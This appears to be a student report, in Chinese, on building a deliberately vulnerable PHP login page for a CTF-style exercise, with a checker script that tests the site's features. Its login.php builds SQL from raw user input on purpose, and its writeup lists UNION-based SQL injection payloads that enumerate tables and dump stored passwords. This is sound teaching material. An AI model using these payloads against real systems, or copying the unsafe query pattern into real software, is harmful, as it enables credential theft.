






# 「320垃圾回收站」总结技术报告

## 实验内容

### SQL注入漏洞

- 基于已经设计的可实现注册、登录、文件上传等功能的系统网页，通过SQL注入获取数据库中的账号密码，并使用admin账号登录。

### checker.py

- checker主要检查用户的注册、登录、文件上传等基本功能实现情况。

## 实验环境

- PHP
- phpMyAdmin
- XAMPP
- Apache
- MySQL

## 实验过程

- docker封装前IP及端口号 (http://localhost:3000)
- phpMyAdimin (http://localhost/phpmyadmin/)

### 漏洞设置

- 初步设想：

  - 通过SQL注入基于用户名和密码登录的网页，获取admin账户密码，再使用其登录。
  - 根据SQL注入语句给出相应信息提示。

- 登录页面login：

  

- 部分代码：

  - login.php**初步处理**：

    ```
    <?php
    ini_set("error_reporting","E_ALL & ~E_NOTICE");
    if ($_SERVER["REQUEST_METHOD"] === "POST") {  
        $mysqli = require __DIR__ . "/database.php";  
        $name=$_POST['name'];
        $password=$_POST['password'];
        $sql = "SELECT * FROM user WHERE name = '$name' and password = '$password'";
        $result = $mysqli->query($sql);
        $user = $result->fetch_assoc();
        $row = $result->fetch_array();
        
        if ($user) {
            session_start();       
            session_regenerate_id();      
            $_SESSION["user_id"] = $user["id"];        
            header("Location: index.php");
            exit;
        }
        else {
            do{
                if(!is_null($row)) {
                    for($i=0; $i<count($row); $i++) {
                        echo $row[$i];
                        echo "<br>";
                    }
                }
                else {
                    echo"用户名或密码错误!";
                }
            } 
            while( $row = $result->fetch_array() );
        }
        $is_invalid = true;
    }
    ?>
    ```

### SQL注入过程

- 测试过程：

  - 数据设置：

    

  - Writeup及效果展示：

    ```
    //查看字段数，依次尝试到6时网页错误，则字段数为5
    ' order by #
    ```

    ```
    //获取数据库名
    SELECT * FROM `user` WHERE name = '' union select database(),1,1,1,1# and password = '$password'
    ```

    

    ```
    //获取表名
    ' union select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema='login_db'#								
    ```

    

    ```
    //获取列名
    ' union select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_name='user' and table_schema='login_db'#
    ```

    

    ```
    //获取数据
    ' union select 1,group_concat(name),group_concat(password),4,5 from user#
    ```

    

  - 获取得到admin账户信息：admin/12345678admin，成功登录。
  - 录制演示视频

### checker脚本

- 实现功能：check1-用户注册/check2-用户登录/check3-文件上传/check4-下载文件/check5-flag获取/check6-用户登出

- 提示：

  ```
  登录:		/login
  注册: 	/process-signup
  注册成功：		/signup-success
  上传文件：		/upload
  已上传文件：		/uploadFiles/filename
  登出：    /logout
  已下载文件：		/check4
  exp.py：	/exp脚本/exp.py
  checker.py：	/check脚本/checker.py
  ```

- 部分代码：

  - check1：check signup

    - 测试注册用户：name`checker`;email`checker@test.com`;password`checker123456`

    ```
    def check1(self): #check register
        print("-----check1: Register-----")
        try:
            url = self.url + 'process-signup.php'
            data = {
                "name": self.name,
                "email": self.email,
                "password": self.password,
                "password_confirmation": self.password,
            }
            rs = requests.post(url, data)
            if rs.url == self.url + 'signup-success.html':
                pass
            else: 
                raise Exception("[-] Register failed.")
        except Exception as e:
            raise Exception("[!] Check1 error, %s" % e)
        time.sleep(2)
        print ("[+] Register Success.")
    ```

  - 执行效果：

    

  - check3：check Upload，上传文件路径：`/check脚本/check.jpg`

  - check4：check Download File，下载路径：`/check脚本/check4`

- 测试脚本：

  - 运行命令：`python checker.py localhost`

  - 运行效果：

    

## 问题及解决

- 环境配置问题：配置`phpmyadmin`时，`MySQL`连接失败
  - 由于端口号3306被占用，将`apache`和`MySQL`的端口号改为3316
  - 使用docker时仍需更改端口信息
  
- 修改login.php文件时遇到php提示`Warning: Undefined array key "Submit"`

  1. 可以打开修改php.ini：

     ```
     # error_reporting = E_ALL
     # 改为：
     error_reporting = E_ALL & ~E_NOTICE
     ```

  2. 或者在文件头上加`error_reporting(0);` *//只适用于当前页*

- 错误`Fatal error: Call to undefined method mysqli::fetch_array()`

  -  `$link->fetch_array($result)` —>`$result->fetch_array()`

## 参考链接

- [创新实践能力团队赛评分标准](https://c4pr1c3.github.io/cuc-wiki/cp/assessment.html)
- [Web应用服务场景](http://www.ciscn.cn/announcement/view/122)
- [CyberPeace/ciscn2018-template](https://github.com/CyberPeace/ciscn2018-template/blob/master/CISCN-2018-web-for-players/README.md)
- [Warning: Undefined array key “Submit“ 解决方案](https://blog.csdn.net/qq_46486478/article/details/120814940)
- [b站lyhahaha](https://www.bilibili.com/video/BV1M94y1X7Ud?spm_id_from=333.999.0.0&vd_source=b39b57b098f9df3647d530e06cbc940e)
- [未识别的方法mysqli：fetch_array（）](https://ask.csdn.net/questions/839987)
- [python爬虫必备-requests库详解](https://blog.csdn.net/DahlinSky/article/details/104457321?utm_medium=distribute.pc_relevant.none-task-blog-2~default~baidujs_baidulandingword~default-0-104457321-blog-121508547.pc_relevant_multi_platform_whitelistv1_exp2&spm=1001.2101.3001.4242.1&utm_relevant_index=3)
- [requests库的使用](https://blog.csdn.net/m0_43404934/article/details/122331463?spm=1001.2101.3001.6650.2&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7Edefault-2-122331463-blog-121508547.pc_relevant_multi_platform_whitelistv1_exp2&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7Edefault-2-122331463-blog-121508547.pc_relevant_multi_platform_whitelistv1_exp2&utm_relevant_index=5)

## 实验总结

- 个人贡献：

  - 网页SQL注入漏洞初版及视频演示；
  - checker脚本编写及测试；
  - 协助最终整体测试；
- 会议记录：

  